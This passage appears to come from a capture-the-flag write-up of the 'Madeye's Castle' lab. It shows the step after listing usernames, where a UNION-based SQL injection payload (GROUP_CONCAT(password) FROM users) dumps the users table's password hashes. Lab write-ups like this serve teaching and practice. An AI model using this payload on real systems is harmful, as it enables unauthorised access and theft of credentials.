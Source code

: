 We get a whole bunch of usernames:

![screenshot23](../assets/images/madeyes_castle/screenshot23.png)

Let's take down these names and move on to obtain the passwords from the **password** column:

```
test' UNION SELECT GROUP_CONCAT(password),NULL,NULL,NULL FROM users--
```

We get a lot of password hashes:

![screenshot24](../assets/images/madeyes_castle/screenshot24.png)
